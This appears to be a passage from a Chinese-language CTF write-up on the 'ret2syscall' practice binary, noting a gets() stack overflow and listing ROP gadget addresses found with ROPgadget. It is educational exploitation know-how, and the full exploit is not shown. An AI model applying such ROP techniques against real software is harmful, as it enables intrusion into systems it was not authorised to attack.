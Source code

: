 可以看到 main 函数有一个 gets() 所以可以进行栈溢出

所以思路也就是有了，可以利用 ROP 构造出

```plain
ROPgadget --binary ret2syscall --only('pop|ret')
```

这里展示一部分获得的 gadget

```plain
0x0809dde2 : pop ds ; pop ebx ; pop esi ; pop edi ; ret
0x0809d7b2 : pop ds ; ret
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080bb196 : pop eax ; ret
0x0807217a : pop eax ; ret 0x80e
0x0804f704 : pop eax ; ret 3
0x0805b6ed : pop ebp ; pop ebx ; pop esi ; pop edi ; ret
0x0809e1d5 : pop ebp ; pop esi ; pop edi ; ret
0x0804838e : pop ebp ; ret
0x080a9a45 : pop ebp ; ret 0x10
0x08096a29 : pop ebp ; ret 0x14
0x08070d76 : pop ebp ; ret 0xc
0x0804854a : pop ebp ; ret 4
0x08049c00 : pop ebp ; ret 8
0x0809e1d4 : pop ebx ; pop ebp ; pop esi ; pop edi ; ret
0x080be23f : pop ebx ; pop edi ; ret
0x0806eb69 : pop ebx ; pop edx ; ret
0x08092258 : pop ebx ; pop esi ; pop ebp ; ret
0x0804838b : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080a9a42 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x10
0x08096a26 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x14
0x08070d73 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0xc
0x08048547 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 4
0x08049bfd : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 8
0x08048913 : pop ebx ; pop esi ; pop edi ; ret
0x08049a19 : pop ebx ; pop esi ; pop edi ; ret 4
0x08049a94 : pop ebx ; pop esi ; ret
0x080481c9 : pop ebx ; ret
0x080d7d3c : pop ebx ; ret 0x6f9
0x08099c87 : pop ebx ; ret 8
0x0806eb91 : pop ecx ; pop ebx ; ret
0x0804838d : pop edi ; pop ebp ; ret
0x080a9a44 : pop edi ; pop ebp ; ret 0x10
0x08096a28 : pop edi ; pop ebp ; ret 0x14
0x08070d75 : pop edi ; pop ebp ; ret 0xc
0x08048549 : pop edi ; pop ebp ; ret 4
0x08049bff : pop edi ; pop ebp ; ret 8
0x0806336b : pop edi ; pop esi ; pop ebx ; ret
0x0805c508 : pop edi ; pop esi ; ret
0x0804846f : pop edi ; ret
0x08049a1b : pop edi ; ret 4
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
0x0806eb6a : pop edx ; ret
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080671ea : pop es ; pop edi ; ret
0x0806742a : pop es ; ret
0x08092259 : pop esi ; pop ebp ; ret
0x0806eb68 : pop esi ; pop ebx ; pop edx ; ret
0x0805c820 : pop esi ; pop ebx ; ret
0x0804838c : pop esi ; pop edi ; pop ebp ; ret
0x080a9a43 : pop esi ; pop edi ; pop ebp ; ret 0x10
0x08096a27 : pop esi ; pop edi ; pop ebp ; ret 0x14
0x08070d74 : pop esi ; pop edi ; pop ebp ; ret 0xc
0x08048548 : pop esi ; pop edi ; pop ebp ; ret 4
0x08049bfe : pop esi ; pop edi ; pop ebp ; ret 8
```